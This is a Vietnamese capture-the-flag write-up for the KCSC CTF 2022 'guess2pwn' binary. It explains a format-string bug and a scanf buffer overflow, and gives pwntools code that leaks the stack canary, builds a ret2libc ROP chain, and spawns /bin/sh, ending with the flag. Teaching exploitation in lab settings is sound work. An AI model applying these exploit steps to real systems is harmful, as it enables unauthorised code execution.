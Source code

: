 # KCSC CTF 2022 - guess2pwn

Các bạn có thể tải chall ở repo của mình: [pwnMe.zip](pwnMe.zip)

# 1. Tìm lỗi

Đầu tiên ta decompile file với ghidra, nhận thấy chỉ có một hàm main: 

```c
undefined8 main(EVP_PKEY_CTX *param_1)
{
    long in_FS_OFFSET;
    char local_60 [8];
    undefined local_58 [72];
    long local_10;
    
    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    init(param_1);
    puts("Hello there, what\'s your name?");

    /* -------- Vulnerability 1 --------*/
    gets(local_60);
    printf("Hello, ");
    __printf_chk(1,local_60);
    /* -------- Vulnerability 1 --------*/

    puts("What you think about this event: ");
    
    /* -------- Vulnerability 2 --------*/
    // DAT_00402052 = "%s"
    __isoc99_scanf(&DAT_00402052,local_58);
    /* -------- Vulnerability 2 --------*/
    
    puts("bye!");
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                      /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return 0;
}
```

Ta có thể thấy ở lỗi 1 là **Format String** vì ta có thể chọn các loại format string ta muốn để hàm `__printf_chk` thực thi ngoại trừ `%n` vì flag của `__printf_chk` là 1 ([Source](https://code.woboq.org/userspace/glibc/debug/printf_chk.c.html)). Đồng thời `__printf_chk` cũng không cho ta xài dạng rút gọn của format string như là `%<k>$p`, `%<k>$x`...

Lỗi thứ 2 là `scanf()` với format string là `%s` --> **Buffer Overflow**

# 2. Ý tưởng

Với custom format string, ta sẽ dùng `%p` để leak canary ra. Sau đó lợi dụng `scanf("%s",local_58)` để overwrite saved rip và leak địa chỉ libc ra, sau đó cho chương trình chạy lại từ đầu và tạo shell.

Tổng kết:
- Stage 1: Leak canary
- Stage 2.1: Ret2libc - Leak address
- Stage 2.2: Ret2libc - Get shell

# 3. Khai thác

Đây là kỹ thuật cơ bản nên mình sẽ lướt nhanh, các bạn ai không hiểu có thể tạo issue, mình sẽ giải đáp cho nhé :3

### Stage 1: Leak canary

Đầu tiên, ta nhập thử 17 cái `%p` vào để xem liệu ta có leak được canary hay không:

![leak-canary.png](images/leak-canary.png)

Vậy với 16 cái `%p`, ta có thể lấy được canary. Code snippet:

```python
p.sendlineafter(b'name?', b'%p'*16)
p.recvline()
canary = int(p.recvuntil(b"What", drop=True).split(b'0x')[-1], 16)
log.info("Canary: " + hex(canary))
```

### Stage 2.1: Ret2libc - Leak address

Ta đã lấy được canary, việc còn lại chỉ là tìm offset từ chuỗi được nhập ở `scanf()` cho tới canary, và offset từ canary tới saved rip. Debug với gdb, nhập chuỗi `AAAAAAAA` tại lệnh `scanf()` và kiểm tra stack:

![gdb-find-offset.png](images/gdb-find-offset.png)

Bằng cách đếm, ta biết được offset từ chuỗi được nhập tới canary là `0x48` byte và từ canary tới saved rip là `0x8`. Bây giờ ta sẽ leak địa chỉ puts ra với đoạn code tiếp theo:

```python
pop_rdi = 0x00000000004013a3
pop_rsi_r15 = 0x00000000004013a1

payload = b'A'*0x48 + p64(canary) + b'B'*8
payload += flat(
    pop_rdi,
    exe.got['puts'],
    exe.plt['puts'],
    exe.sym['main'])
p.sendlineafter(b'event:', payload)
p.recvline()
p.recvline()
puts_addr = u64(p.recvline()[:-1] + b'\x00\x00')
log.info("Puts address: " + hex(puts_addr))
```

Với địa chỉ leak được, ta vào [đây](https://libc.blukat.me/) để tại libc về:

![leak-puts-addr.png](images/leak-puts-addr.png)

![libc-database-search.png](images/libc-database-search.png)

Có 4 libc, trong đó 2 cái đầu là 32 bit và 2 cái sau là 64 bit. File chall của chúng ta là 64 bit nên ta sẽ thử hết với 2 libc sau. 

Ta thử bằng cách tải libc về và chạy `pwninit` để patch libc và binary. Nếu lỡ chọn sai libc (phải làm hết tới bước lấy shell nhưng không thành công thì mới biết được), ta chỉ việc chạy lại pwntool với libc còn lại.

Tiếp tục, ta thêm đoạn code sau để tìm địa chỉ base của libc:

```python
libc.address = puts_addr - libc.sym['puts']
log.info("Libc base: " + hex(libc.address))
```

### Stage 2.2: Ret2libc - Get shell

Có địa chỉ của libc, ta sẽ tạo shell với cách thức như trên:

```python
p.sendlineafter(b'name?', b'AAAA')
payload = b'A'*0x48 + p64(canary) + b'B'*8
payload += flat(
    pop_rsi_r15,
    0,
    0,
    pop_rdi,
    next(libc.search(b'/bin/sh')),
    libc.sym['system'])
p.sendlineafter(b'event:', payload)
p.interactive()
```

Nếu chạy script với libc này mà không tạo được shell, ta dùng libc còn lại để tạo shell.

> Tips: Nhớ set rsi thành null để tránh gặp lỗi khi thực thi `system("/bin/sh")`

Full code: [solve.py](solve.py)

# 4. Lấy cờ

![get-flag.png](images/get-flag.png)

Flag là `KCSC{abcca9dc165c259d21469e60dc087244}`